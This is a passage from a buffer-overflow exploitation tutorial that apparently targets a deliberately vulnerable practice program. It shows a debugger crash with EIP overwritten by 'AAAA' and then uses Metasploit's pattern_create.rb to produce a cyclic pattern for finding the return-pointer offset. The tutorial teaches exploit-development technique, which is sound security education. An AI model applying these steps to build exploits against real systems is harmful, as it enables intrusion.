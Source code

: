 We get a crash in Immunity!

![Crashy crashy. `EIP` = `0x41414141`
("AAAA")](dostackbufferoverflowgood_images/immdbg_0x41414141.png)

Note the status bar informing us of an Access Violation when executing
`0x41414141`, and the presence of `0x41414141` in the `EIP` register. `0x41` is
the hexadecimal value of the ASCII character `"A"`. We can be pretty certain
this is due to having overwritten the Saved Return Pointer with four of our
1024 `A`'s. If you want to, you can confirm this by keeping the breakpoints
from earlier and stepping over each instruction in the function all the way
through to the return from `doResponse()`.

Be sure to restart (`Ctrl-F2`) the program before trying to connect to it again
then pound `F9` to get it up and running.

!["Restart Program"
button (hotkey `Ctrl-F2`)](dostackbufferoverflowgood_images/immdbg_restartprocess.png)

\newpage
# Discover offsets

We have the ability to smash the Saved Return Pointer and put `"AAAA"` in to
`EIP`, but we need to know exactly how far in to our trove of `A`'s the four
bytes that ends up smashing the Saved Return Pointer is. The easiest way to do
this is using Metasploit's `pattern_create.rb`. If you're running Kali this
should be at either:

* `/usr/share/metasploit-framework/tools/pattern_create.rb`; or
* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

Depending on how up to date your Kali's `metasploit-framework` package is.

If you're running Metasploit from a copy of Rapid7's git repository (as I do),
it's in `tools/exploits/`

Use `pattern_create.rb` to generate 1024 characters of cyclic pattern.

```
% ~/opt/metasploit-framework/tools/exploit/pattern_create.rb 1024

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3
Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5
Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7
Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9
Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1
An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3
Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5
Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7
At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9
Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1
Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3
Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5
Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7
Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9
Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B
```
